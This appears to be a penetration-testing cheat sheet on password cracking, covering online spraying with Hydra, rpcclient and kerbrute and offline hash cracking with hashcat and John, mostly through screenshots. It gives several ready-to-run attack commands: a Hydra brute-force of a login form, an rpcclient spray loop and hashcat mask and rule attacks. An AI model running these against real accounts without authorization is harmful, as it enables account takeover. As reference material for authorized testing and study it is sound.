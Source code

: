 # Cracking
Password cracking involves various techniques and tools to recover or crack passwords from hashed or encrypted formats.
It has two main branches, 1) Online cracking passwords/Spray. 2) Offline cracking hashes.

* Online Password Cracking: Online password cracking involves attempting to crack passwords in real-time by directly interacting with the target system. While this approach is less common and not always effective, tools like Hydra can be used to automate online password guessing. Hydra is a versatile tool that supports a range of protocols, such as SSH, FTP, HTTP, and more, enabling automated login attempts using a provided wordlist or dictionary.

* Offline Password Hash Cracking: Offline password cracking refers to the process of cracking password hashes obtained from a target system without actively interacting with the system itself. Tools like Hashcat and John the Ripper are commonly used for offline cracking. Hashcat, leveraging the power of GPUs, is known for its speed and supports various hash types and attack modes, including dictionary attacks, brute-force attacks, and rule-based attacks. John the Ripper, another popular tool, can handle diverse password hash formats and offers flexible attack modes.

## Creating wordlists
![Pasted image 20230509090220](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54c6eb3e-a0bd-4e30-ae44-2473c2703348)


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e19d3ea8-7a76-4678-83dc-0e8bba6f894f)

```
hashcat --force password.list -r /usr/share/hashcat/rules/best64.rule --stdout | sort -u > mut_password.list
```
# Online
Last route, hard to crack, easy to get blocked.

## hydra login webpage
```
hydra -l admin -P rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```
## hydra ftp/ssh
![Pasted image 20230509090612](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0be7b78a-b10d-4edf-b1cb-5b28402c216b)

## crackmapexec

<img width="681" alt="Screen Shot 2022-08-06 at 10 16 27 AM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/7ec8a6d2-1cb5-41da-860e-03ccd188f8f0">

![Pasted image 20220805223125](https://github.com/dbissell6/Shadow_Stone/assets/50979196/07107201-2407-44ba-8e22-95d1f5a0f9ca)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/665cab1d-ed45-478b-8caa-9c8ef85f0ba6)


## rpcclient to password spray
![Pasted image 20230508093804](https://github.com/dbissell6/Shadow_Stone/assets/50979196/404d14eb-881b-48d0-8fec-7fc0147330fb)

```
for u in $(cat usernames.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
## kerbrute to spray

![Pasted image 20230508093946](https://github.com/dbissell6/Shadow_Stone/assets/50979196/37b9f071-4e6e-4e66-953d-bd116c0f04ca)


# Offline
Remember, if trying to crack a hash of something from a windows system, even if the cracking fails you might still be able to Pass The Hash.



## Hashcat

## hashcat example hashes

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/41352270-138e-4883-9a67-6c67197c3b95)


## hashcat bruteforce length 8 digits+uppercase

```
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

## John 
See all the hashes that can be converted to something john can crack
```
locate *2john*
```

## md5 with format

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5958012a-fe55-4325-a4d8-ebd9de77f59b)


## zip password
![Pasted image 20220805161528](https://github.com/dbissell6/Shadow_Stone/assets/50979196/eeed6c7b-2722-4d0c-aa1b-82c38390554a)

![Pasted image 20220805161535](https://github.com/dbissell6/Shadow_Stone/assets/50979196/b48c3d5b-1cdc-41df-9346-302b54ba2d71)

## pfx
![Pasted image 20220805161711](https://github.com/dbissell6/Shadow_Stone/assets/50979196/30eb6a80-1283-430e-a0ad-723acc91a2d4)

## TGS ticket

![Pasted image 20230503093443](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e734a700-997d-4ce9-abe2-a9622c1c6988)

![Pasted image 20230503093654](https://github.com/dbissell6/Shadow_Stone/assets/50979196/6d0336e0-2db4-4de3-bc22-20e7b46e5df2)

## AS-REPRoastable hashes
![Pasted image 20230503112725](https://github.com/dbissell6/Shadow_Stone/assets/50979196/28d33815-bf5f-4b74-841b-7e51389c715a)

## SSH

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/83168a86-d864-4a78-a466-d28c524f86a6)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bee30523-84f3-4241-ac99-7fd431dfff39)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f4dc63bd-7305-4816-9414-436321ffeac9)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/32d8b87c-c786-4bba-aabc-c6230e4d44a5)


